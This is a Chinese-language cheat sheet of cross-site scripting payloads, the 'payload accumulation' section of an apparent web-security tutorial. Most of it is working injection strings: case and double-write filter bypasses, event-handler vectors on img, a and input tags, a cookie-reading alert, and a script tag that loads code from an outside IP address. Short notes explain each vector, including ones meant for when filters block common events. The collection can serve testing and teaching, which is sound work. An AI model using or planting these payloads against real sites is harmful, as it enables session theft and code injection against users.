 

### 五、payload积累

#### 1.常用标签与属性

~~~
<script src="http://47.95.15.102/"></script>
大小写以及双写绕过
<Script>alert(111)</script>
<sc<script>ript>alert(111)</script>
"><script>alert(/xss/)</script>
基本payload
<Script>alert(document.cookie)</script>
<script>alert(/xss/)</script>  //弹框，最常用
<script>confirm(1)</script>  //弹出确认框
<script>prompt(111)</script>   //弹出输入框
" autofocus onfocus=alert(1) x="
绕过手法(alert)(111)   (confirm)(111)

autofocus onfocus=alert(1)
对应的payload

<img>标签：
<img src='x' onerror=alert(1)>
在这个示例中，<img>标签的src属性设置为一个无效的 URL，然后使用onerror事件来触发alert弹窗。
<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

"/> <a href=javascript:alert(1)>hhh </a> x="
<a>标签：
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
<a href=javascript:alert(1)>Click me</a>

这个示例在<a>标签的href属性中使用了JavaScript代码来触发alert弹窗。

当JavaScript被过滤或禁用时
攻击者可能尝试使用不太常见的事件或技巧来触发XSS攻击。以下是一些不太常见的事件代替：
onmouseover事件：这个事件在鼠标悬停在元素上时触发，可以被用来触发弹窗或其他恶意操作。
<a href=# onmouseover="alert(1)">Hover</a>

onmousemove`事件：这个事件在鼠标在元素内移动时触发，同样可以用于触发弹窗。
<a href="#" onmousemove=alert('XSS Attack!');>Move mouse over me</a>

onload`事件：这个事件通常用于在页面加载完成后触发，但攻击者可能尝试在某些元素上使用它。
<img src="image.jpg" onload="alert('XSS Attack!');">

onfocus`事件：这个事件在元素获得焦点时触发，可以用于输入框等元素。
<input type="text" onfocus="alert('XSS Attack!');" />

onblur事件：这个事件在元素失去焦点时触发，也可以被用于输入框等元素。
<input type="text" onblur="alert(1);" />

 <inpulet>标签
<input type='text' value='<img src=x onerror=alert("XSS Attack!")>'
在这个示例中，我们将`<input>`标签的`value`属性设置为包含`<img>`标签的XSS payload，用户如果输入这个值，就会触发弹窗。

~~~